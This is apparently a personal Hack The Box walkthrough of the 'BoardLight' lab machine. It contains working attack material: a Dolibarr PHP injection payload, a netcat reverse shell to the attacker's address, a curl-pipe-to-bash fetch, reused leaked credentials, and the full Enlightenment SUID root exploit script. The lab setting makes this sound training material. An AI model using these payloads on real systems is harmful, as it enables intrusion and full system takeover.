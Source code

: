 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
- pass after logging in with creds
- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
```
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
- save and click Preview page.
- pass reverse shell 
- main exploit:
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.41 4455 >/tmp/f");?
```
- also pass php-reverse-shell.py into it and that works too.
- for both i keep netcat listener open on required port.
- both work. but we can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit which is shown below and explains the directory path having ;, and the weird // and all to bypass the codes restrictions to pass the exploit)
```
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
- we check user and we are www-data
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
```
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
```
sudo python3 -m http.server 9898
```
- call linpeas from target
```
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
```
find / -type f -perm -4000 2>/dev/null
```
- We find an enlightenment file which is unusual
- can't execute this as www-data
- can check version with larissa
```
englightenment --version
```
- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
```
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
- We gain root privileges
- root flag at /root/
